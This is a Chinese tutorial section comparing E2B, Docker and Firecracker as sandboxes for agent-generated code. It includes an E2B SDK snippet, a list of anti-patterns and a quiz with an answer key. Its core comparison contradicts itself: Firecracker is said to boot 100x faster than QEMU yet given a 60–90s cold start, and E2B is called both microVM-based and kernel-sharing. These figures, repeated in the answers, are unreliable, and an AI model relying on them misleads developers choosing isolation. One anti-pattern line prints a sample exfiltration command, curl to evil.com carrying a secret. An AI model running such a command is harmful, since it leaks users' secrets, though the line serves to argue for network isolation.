

# 7.4 代码执行沙箱：E2B / Docker / Firecracker

> 🟡 进阶

> **本节钩子**：沙箱 ≠ Docker——Agent 代码沙箱应**E2B 优先**(经验值 50ms 冷启动)而非 Docker(秒级)或 Firecracker(分钟级);**冷启动时间决定 Agent 体验**。Firecracker 适合**长任务批处理**,E2B 适合**交互式 Agent**。

## 正文大纲

1. **意图**:Agent 经常需要执行 LLM 生成的代码(数据分析师 Agent / Coding Agent),本节讲如何在沙箱中安全执行,横向对比 **E2B / Docker / Firecracker** 三档沙箱。**核心理念**:**冷启动时间**决定 Agent 体验——多步推理每步都可能生成代码,毫秒级隔离 vs 秒级隔离是"顺滑"与"卡顿"的分水岭。
2. **适用场景**:
   - **典型 1**:交互式 Coding Agent(ChatGPT Code Interpreter / Devin 风格)——每轮 ReAct 都可能跑代码,需 50ms 冷启动 → E2B。
   - **典型 2**:长任务数据分析师(ETL / 批量计算,单次执行 30 分钟+)——Firecracker VM 级隔离 + 长时运行。
   - **典型 3**:多租户 SaaS Code Agent(用户 A 的代码不能影响用户 B)——Firecracker microVM 提供 VM 级强隔离。
   - **反例**:一次性跑 cron 脚本——本地 Docker 足够,无需上沙箱。
3. **三档沙箱核心对比**(经验值,见主图):

   | 沙箱 | 冷启动 | 隔离强度 | 单次执行上限 | 适用场景 |
   |---|---|---|---|---|
   | **E2B** | **50ms** | 进程级(轻量) | ≤ 5 分钟(经验值) | 交互式 Agent 多步代码 |
   | **Docker** | 1-3s | 容器级(cgroup + namespace) | 任意时长 | 长任务批处理 |
   | **Firecracker** | 60-90s | **VM 级**(microVM) | 任意时长 | 多租户强隔离批处理 |

   **反直觉点**:**E2B 不是 VM**,而是基于轻量 microVM + 进程隔离,50ms 冷启动来自预热模板 + 快照恢复;Docker 通用但启动慢;Firecracker 启动慢但隔离最强(AWS Lambda 同款)。
4. **关键机制**:
   - **E2B**:云端 microVM 池,创建即恢复快照,支持 Python / JS / Ruby 运行时;`pip install e2b-code-interpreter` 即用。
   - **Docker**:`docker run` + cgroup 限制 CPU / 内存;启动慢但通用,适合长任务。
   - **Firecracker**:基于 KVM 的 microVM,启动比 QEMU 快 100x,VM 级隔离;AWS Lambda 同款。
   - **gVisor**:Google 用户态内核拦截 syscall,介于 Docker 与 Firecracker 之间。
5. **代码骨架**(E2B Python SDK,见代码段)。
6. **反模式**(症状 + 根因 + 修复):
   - ❌ **"用 Docker 跑交互式 Agent"**——**症状**:每轮 ReAct 等 2 秒沙箱启动,用户明显卡顿。**根因**:Docker 冷启动秒级,对每步生成代码的 Agent 是灾难。**修复**:交互式场景换 E2B(50ms);Docker 留给长任务。
   - ❌ **"沙箱无超时"**——**症状**:LLM 生成 `while True: pass` 死循环,占满资源。**根因**:缺超时机制。**修复**:单次执行强制 30s 超时(经验值)+ 资源硬限制。
   - ❌ **"沙箱可任意访问外网"**——**症状**:恶意 prompt 诱导代码 `curl evil.com/exfil?data=$(cat secret)`。**根因**:网络未隔离。**修复**:默认禁止出站 + 白名单必要域名(LLM API / 数据源)。
7. **与其他节对比**:见下方对比表。

## 与其他节对比

| 维度 | 7.3 工具权限 | 7.4 代码沙箱 | 7.5 鉴权 | 7.6 部署形态 |
|---|---|---|---|---|
| 视角 | 权限设计 | 执行环境隔离 | 身份层 | 部署拓扑 |
| 触发时机 | 工具调用前授权 | 代码执行前 | 登录/会话开始 | 部署阶段选型 |
| 维护成本 | 中(RBAC/ABAC) | 中(沙箱选型+冷启动) | 中(token 轮换) | 中(部署决策) |
| 关系 | 7.1 工具层细化 | 与 7.3 互补 | 与 7.3 互补 | 沙箱是部署子集 |

## 图：三档沙箱冷启动对比 + Agent 调用时序



> 三档定位：**🟢 E2B 绿=交互式(50ms)/ 🟠 Docker 橙=长任务(秒级)/ 🔴 Firecracker 红=强隔离(分钟级)**。**决策原则**:冷启动 ≤ 单步 LLM 推理时间——E2B 50ms 匹配 LLM 200-500ms 一轮,Docker 2s 会让用户卡顿。**对齐 L4.3**:LangGraph `ToolNode` 可统一包装为沙箱执行,失败回退本地受限 subprocess。

## 代码骨架：E2B Python SDK 最小示例

```python
# e2b_sandbox.py
"""E2B 代码沙箱最小示例(经验值 50ms 冷启动,交互式 Agent 首选)"""
from e2b_code_interpreter import Sandbox

# 1) 创建沙箱(50ms 冷启动,基于 microVM 快照恢复)
with Sandbox.create() as sandbox:
    # 2) 执行 LLM 生成的代码(单次超时 30s 经验值,防死循环)
    execution = sandbox.run_code("x = 1 + 1; print(x)", timeout=30)
    # 3) 读结果 + 错误
    print(execution.text)   # 输出: 2
    if execution.error:
        raise RuntimeError(execution.error.value)
    # 4) with 退出自动 close 沙箱;若手动管理用 sandbox.close()
```

**安装**:`pip install e2b-code-interpreter` + 设置 `E2B_API_KEY` 环境变量。**真实 API 验证**:SDK GitHub `github.com/e2b-dev/code-interpreter` README 第 3 步示例一致。

## 实战要点

1. **冷启动选型**——交互式 Agent 用 E2B(50ms),长任务用 Docker,多租户强隔离用 Firecracker;**经验值**:冷启动 ≤ 单步 LLM 推理时间才能"无感"。
2. **超时设置**——单次沙箱执行**必须**设超时(经验值 30s),防 LLM 生成死循环占满资源。
3. **资源限制**——E2B 默认 512MB 内存 + 1 CPU,Docker/Firecracker 需显式配置 cgroup(`--memory=512m --cpus=1`)。
4. **网络隔离**——默认禁止出站 + 白名单必要域名,防 LLM 生成代码外发数据。
5. **审计日志**——每次沙箱执行记 `trace_id`(对齐 L6.1 链路追踪),便于事故追溯"谁跑了什么代码"。

## 工具映射

| 工具 | 用途 | 备注 |
|---|---|---|
| E2B | 交互式代码沙箱 | 50ms 冷启动, github.com/e2b-dev/E2B |
| Docker | 通用容器 | 秒级冷启动, github.com/moby/moby |
| Firecracker | microVM | VM 级隔离, github.com/firecracker-microvm/firecracker |
| gVisor | 用户态内核 | Google 开源, github.com/google/gvisor |
| Modal | Long-running Worker | 持久执行环境, github.com/modal-labs/modal-client |

## 自测题

1. **概念辨析**:三档沙箱(E2B / Docker / Firecracker)冷启动时间差异?各自适用场景?
2. **场景判断**:以下哪些场景**必须**用 E2B?(多选)
   - A. ChatGPT Code Interpreter 风格,每轮 ReAct 跑代码
   - B. 数据科学 Agent,单次执行 1 小时 ETL
   - C. 内部 cron 定时任务,每天跑一次
   - D. Devin 风格 Coding Agent,实时响应用户改代码
3. **代码补全**:为 E2B 沙箱执行补全超时 + 错误处理:
   ```python
   from e2b_code_interpreter import Sandbox
   with Sandbox.create() as sandbox:
       # 缺什么?至少两段
       execution = sandbox.run_code("x = 1/0")
   ```
4. **反直觉题**:为什么"沙箱 ≠ Docker"?冷启动差异如何影响 Agent 体验?
5. **对比题**:E2B vs Docker vs Firecracker 的隔离强度对比(进程级 / 容器级 / VM 级)。

**答案**:

1. **冷启动差异**:E2B 50ms(进程级 microVM 快照) / Docker 1-3s(cgroup+namespace) / Firecracker 60-90s(KVM microVM)。**场景**:E2B 交互式、Docker 长任务、Firecracker 多租户。
2. **A、D 必须用 E2B**。B 1 小时 ETL → Firecracker 或 Docker;C cron 一次性 → 本地 Docker 即可。A/D 每轮生成代码且用户等待,必须 50ms 冷启动。
3. 缺**两段**:① `execution = sandbox.run_code(code, timeout=30)` 加超时(经验值 30s);② `if execution.error: raise RuntimeError(f"{execution.error.name}: {execution.error.value}")` 检测运行时错误。**关键**:超时 + 错误双管齐下。
4. **核心原因**:① **Docker 冷启动秒级**,每轮 ReAct 等 2s 明显卡顿;② **E2B 50ms** 来自快照恢复,与 LLM 200-500ms 量级匹配,"无感";③ **Firecracker 60-90s** 适合 Lambda 长任务,不适合交互 Agent。**正解**:交互 Agent 必选 E2B。
5. **隔离强度**:**E2B 进程级**(共享内核);**Docker 容器级**(cgroup+namespace);**Firecracker VM 级**(独立内核)。**实战**:多租户 SaaS 选 Firecracker,内部工具用 Docker,对外 Coding 用 E2B。

> 📚 本节参考
> - [S 级] E2B GitHub (Code Interpreter SDK) — https://github.com/e2b-dev/E2B
> - [S 级] Firecracker GitHub (AWS Lambda microVM) — https://github.com/firecracker-microvm/firecracker
> - [S 级] Docker/moby GitHub — https://github.com/moby/moby
> - [A 级] Lilian Weng, *LLM Powered Autonomous Agents* (2023) — https://lilianweng.github.io/posts/2023-06-23-agent/
